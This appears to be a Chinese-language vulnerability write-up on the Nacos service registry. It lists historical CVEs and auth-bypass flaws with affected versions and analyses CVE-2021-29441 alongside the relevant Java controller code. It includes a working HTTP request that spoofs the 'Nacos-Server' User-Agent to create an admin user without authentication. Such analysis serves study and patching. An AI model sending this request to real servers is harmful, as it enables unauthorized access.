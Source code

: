 后续的修复和JWT Token权限校验漏洞的修复方式一样，都是去掉了硬编码，设为了空。并且要求用户进行设置，否则无法启动。



## 历史漏洞

| 漏洞编号             | 漏洞类型                 | 影响范围               |
| -------------------- | ------------------------ | ---------------------- |
| CVE-2021-29441       | User-Agent权限绕过       | <1.4.2                 |
| CVE-2021-29441的绕过 | url权限绕过              | <1.4.2                 |
| QVD-2023-6271        | accessToken认证绕过      | <=2.2.0                |
| CVE-2021-29441的绕过 | serverIdentity硬编码绕过 | <=2.2.0                |
| 无                  | Hessian反序列化漏洞      | 2.0.0 <= Nacos < 2.2.3 |



### CVE-2021-29441

在框架结构的1.4.0版本权限校验中说到如果User-Agent的值为`Nacos-Server`即可绕过所有的校验。结合后台Controller能够造成的威胁，可以创造新用户

```
POST /nacos/v1/auth/users?username=123&password=123 HTTP/1.1
Host: ip
User-Agent: Nacos-Server
```

对应的UserController代码如下

```java
@RestController("user")
@RequestMapping({"/v1/auth", "/v1/auth/users"})
public class UserController {
    @Secured(resource = NacosAuthConfig.CONSOLE_RESOURCE_NAME_PREFIX + "users", action = ActionTypes.WRITE)
    @PostMapping
    public Object createUser(@RequestParam String username, @RequestParam String password) {
        
        User user = userDetailsService.getUserFromDatabase(username);
        if (user != null) {
            throw new IllegalArgumentException("user '" + username + "' already exist!");
        }
        userDetailsService.createUser(username, PasswordEncoderUtil.encode(password));
        return new RestResult<>(200, "create user ok!");
    }
}
```



### JWT Token权限校验

另外，`conf/application.properties`中还有一个硬编码的属性。

